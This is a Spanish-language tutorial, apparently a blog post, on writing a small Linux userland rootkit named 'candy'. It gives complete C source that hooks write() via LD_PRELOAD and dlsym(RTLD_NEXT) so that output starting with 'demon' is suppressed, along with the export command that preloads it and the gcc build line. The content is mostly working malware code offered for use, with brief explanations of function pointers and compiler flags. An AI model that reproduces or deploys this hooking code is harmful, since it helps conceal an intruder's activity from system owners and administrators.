 # Mini tutorial de idea para crear un _rootkit_ para linux 

La idea principal es crear una biblioteca compartida en __C__ para suplantar la funcion  __write__ del
sistema. Utilizando  `LD_PRELOAD` que contiene una lista de objetos compartidos `ELF` especificados por el usuario.

Permite a los usuarios cargar estos objetos compartidos en el espacio de direcciones de un proceso antes que cualquier otra biblioteca compartida y antes de la ejecución del programa en sí.
### Sinopsis

```bash
export LD_PRELOAD=/path/to/candy.so:$LD_PRELOAD
```

###  Sinopsis de write

```cpp
#include <unistd.h>

ssize_t write(int fd, const void *buf, size_t count); 
```

# Descripcion

Escribe hasta __count__ bytes desde el `buffet` almacenando `buf` en el archivo al que hace referencia 
el descriptor de archivo `fd`. 

También utilizaremos la función `dlsym()` para realizar una búsqueda de símbolo. El cual sería la función __write__ en la biblioteca compartida especificada por `RTLD_NEXT` el cual indica que se debe buscar en la siguiente biblioteca compartida la lista de carga.

### Puntero a Función

Todas las funciones de _C_ están en punteros de actualidad a un punto en la memoria del programa donde existe algún código. El uso principal de un puntero de función es proporcionar una "devolución de llamada" a otras funciones (o para simular clases y objetos).

La sintaxis de una función es:

```
returnType (* nombre) (parámetros)
```

# Codigo

```cpp
// Autor  : @demon_rip
// Nombre : candy

#include <dlfcn.h>
#include <stdio.h>
#include <unistd.h>

ssize_t write(int fildes, const void *buf, size_t nbytes) {
  ssize_t (*new_write)(int fildes, const void *buf, size_t nbytes);
  ssize_t result;
  new_write = (ssize_t(*)(int, const void *, size_t))dlsym(RTLD_NEXT, "write");
  if (strncmp((const char *)buf, "demon", strlen("demon")) == 0) {
    result = nbytes;
  } else {
    result = new_write(fildes, buf, nbytes);
  }
  return result;
}
```

> Nota: El compilador puede arrojar una advertencia  por la conversación de tipo pero todo bien.
### Compilación 

```sh
gcc -ldl candy.c -fPIC -shared -D_GNU_SOURCE -o candy.so 
```

`-ldl` : Esto enlaza la biblioteca dinámica (`libdl`). La biblioteca `libdl` proporciona funciones para cargar dinámicamente bibliotecas compartidas en tiempo de ejecución.

`-fPIC`: Esta opción genera código independiente de la posición (Position Independent Code). Es necesario para crear bibliotecas compartidas para que el código generado pueda ser utilizado en cualquier dirección de memoria.

`-shared`: Esta opción indica que se debe crear una biblioteca compartida en lugar de un ejecutable. Las bibliotecas compartidas son archivos que pueden ser cargados en tiempo de ejecución por otros programas.

`-D_GNU_SOURCE`: Define la macro _GNU_SOURCE_. Esta macro habilita características y extensiones específicas de GNU en las bibliotecas estándar de C. Es útil para utilizar funciones y características adicionales que no están disponibles en el estándar ANSI C.

# Créditos 

A `@ivam3` por el cual obtuve una face beta de este código.



{% if page.comments %}
<div id="disqus_thread"></div>
<script>
    (function() { // DON'T EDIT BELOW THIS LINE
    var d = document, s = d.createElement('script');
    s.src = 'https://blok-termux.disqus.com/embed.js';
    s.setAttribute('data-timestamp', +new Date());
    (d.head || d.body).appendChild(s);
    })();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>
{% endif %} 



 
